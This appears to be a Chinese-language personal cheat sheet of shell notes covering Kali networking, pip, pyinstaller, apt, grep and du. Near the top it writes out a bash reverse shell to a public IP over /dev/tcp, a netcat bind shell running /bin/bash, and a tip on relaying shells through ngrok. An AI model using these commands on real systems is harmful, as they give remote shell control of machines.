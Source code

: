 ### kali重新启动网卡

/etc/init.d/networking restart





bash -i >/dev/tcp/119.28.130.53/2333 0>&1 2>&1



正向反弹   靶机 ：nc -lvp 2333 -e /bin/bash   
  
攻击机： # nc 192.168.255.147（靶机ip）  2333



设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口


### pip检查哪些包需要更新

	# pip list --outdated

### pip升级包

	# pip install --upgrade 要升级的包名

### pyinstaller 打包报错

	raise Exception(pyruntime + ' not found')
	Exception: Python.Runtime not found

执行： ```pip install pythonnet```

再重新打包。 

echo  中转义  用 ^ 相当于 正则中\

echo  ^%  输入  %

### apt 安装指定版本软件解决依赖问题

apt-get install zlib1g=1:1.2.3.4.dfsg-3ubuntu4



### 在当前目录下递归遍历各子文件夹的文件寻找含有 abc 字符串的文件信息

grep -r abc .


### 文件相关

查看文件/文件夹大小

du -sh *
